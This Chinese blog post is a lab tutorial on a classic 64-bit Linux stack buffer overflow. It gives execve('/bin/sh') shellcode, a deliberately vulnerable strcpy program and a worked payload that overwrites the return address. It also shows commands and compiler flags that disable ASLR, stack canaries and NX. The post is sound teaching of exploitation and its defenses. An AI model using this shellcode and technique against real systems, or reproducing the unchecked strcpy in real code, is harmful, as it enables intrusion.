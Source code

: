 ```yaml
---
title: 基础栈溢出
date: 2018-05-01 10:53:54
updated: 2018-05-01 10:53:54
tags:
- Linux
- 栈溢出
categories: 安全
keywords: 栈溢出
copyright: true
---
```


## 目的

- 理解掌握`C` 栈帧结构
- `Shellcode` 构造
- 加深理解栈溢出攻击原理及防护措施

## 要求

- 在关闭安全机制下,在Linux系统平台上实现缓冲区溢出攻击
- 开启安全保护机制,运行一样的溢出攻击代码,比较实现现象

<!-- more -->

## 实例

​      `C` 栈帧结构如下：

![区_02](%E9%80%89%E5%8C%BA_025.png)

​         因此当当前帧的局部变量和临时变量超出区域，覆盖了`ebp` 和返回地址时，就实现了栈溢出攻击。再通过精心设计返回地址，使其为`Shellcode` 的起始地址，就完成了运行流的劫持。

​      实例基于 64位 `Ubuntu \ 16.04` 操作系统版本以及 `gcc,gdb` 版本信息如下：

```txt
Linux ubuntu 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

gcc (Ubuntu 5.4.0-6ubuntu1~16.04.9) 5.4.0 20160609

GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
```

* `Shellcode`  代码

​       `Shellcode` 是一段攻击者精心设计的恶意代码，通常要求与位置无关，且本实验中利用 `strcpy()` 函数，因此`Shellcode`  代码中不能出现  `\x00` ，会被当作`\0`从而结束拷贝。

​       编写`Shellcode` ，该`shellcode` 调用`execve("/bin/sh",NULL)` ，启动一个新的`shell`，验证其功能，参考: https://www.exploit-db.com/exploits/36858/ ，编写汇编文件如下：

```asm
.global _start
_start:
    # char *const argv[]
    xorl %esi, %esi
 
    # 'h' 's' '/' '/' 'n' 'i' 'b' '/'
    movq `0x68732f2f6e69622f, %rbx
 
    # for '\x00'
    pushq %rsi
    pushq %rbx
    pushq %rsp
    
    # const char *filename
    popq %rdi
 
    # __NR_execve 59
    pushq `59
    popq %rax
 
    # char *const envp[]
    xorl %edx, %edx
    syscall
```

![区_02](%E9%80%89%E5%8C%BA_028.png)

   提取机器码：

![区_02](%E9%80%89%E5%8C%BA_029.png)

* 漏洞代码

```c
#include <stdio.h>
#include <string.h>
void overflow(char* str){
    char buf[30];
    strcpy(buf, str);
}
int main(){
    char str[60]="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
                  "\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05";
    overflow(str);
    return 0;
}
```

​       上面这段程序栈溢出漏洞触发点在`strcpy`函数, 函数没有做边界检查，可导致栈溢出覆盖返回地址。成功利用栈溢出需要确定覆盖多少个字节可以覆盖到返回地址。因此在`gdb`调试时确定`shellcode`的地址即`str`复制后`buf`的首地址，让返回地址指向该地址。

* 结果

  为了更简单的方式实现栈溢出，需要关闭一些保护措施。

- `ASLR` (地址空间布局随机化)

  关闭`ASLR`：`echo 0 |sudo tee /proc/sys/kernel/randomize_va_space`

- `Cannary`  金丝雀

  开启`Canary`之后，函数开始时在ebp和临时变量之间插入一个随机值，函数结束时验证这个值。如果不相等（也就是这个值被其他值覆盖了），就会调用 `_stackchk_fail`函数，终止进程。对应GCC编译选项`-fno-stack-protector`解除该保护。

- `NX`
  开启`NX`保护之后，程序的堆栈将会不可执行。对应GCC编译选项`-z execstack`解除该保护。    

编译调试：

![区_03](%E9%80%89%E5%8C%BA_031.png)

​       从调试结果可知，`buf` 的首地址为 `0x7fffffffdaa0` ，且查看内存该地址处确实为 `Shellcode` 起始代码。为了覆盖到返回地址，即填充字节至且包括8字节`rbp` (`0x7fffffffdac0`) ，则除了`shellcode`外还需要填充17字节。另外返回地址为`0x7fffffffdaa0`,改为小端模式`\xa0\xda\xff\xff\xff\x7f`。因此：

```c
char str[60]="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56"
              "\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
              "\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61"
              "\xa0\xda\xff\xff\xff\x7f\x00\x00";
```

​     重新编译，gdb调试运行：

![区_03](%E9%80%89%E5%8C%BA_032.png)

 成功运行。然而实际运行却是段错误，原因是gdb有自己的变量环境，变量的存放地址和程序实际运行会不一致，因此只需要把返回地址改为shellcode实际存放的地址即可，填充长度无须改变，因为相对偏移不变。

获取`shellcode` 实际地址，可以打印出`buf` 地址，也可以利用内核转储获取真实地址。首先启用内核转储 `ulimit -c unlimited`  ，缺省情况下，内核在coredump时所产生的core文件放在与该程序相同的目录中，并且文件名固定为core。

![区_03](%E9%80%89%E5%8C%BA_033.png)

因此修改`str` 尾部为`\x10\xdb\xff\xff\xff\x7f\x00\x00`。重新编译运行：

![区_03](%E9%80%89%E5%8C%BA_034.png)

若启用保护措施，正常编译：

![区_03](%E9%80%89%E5%8C%BA_035.png)

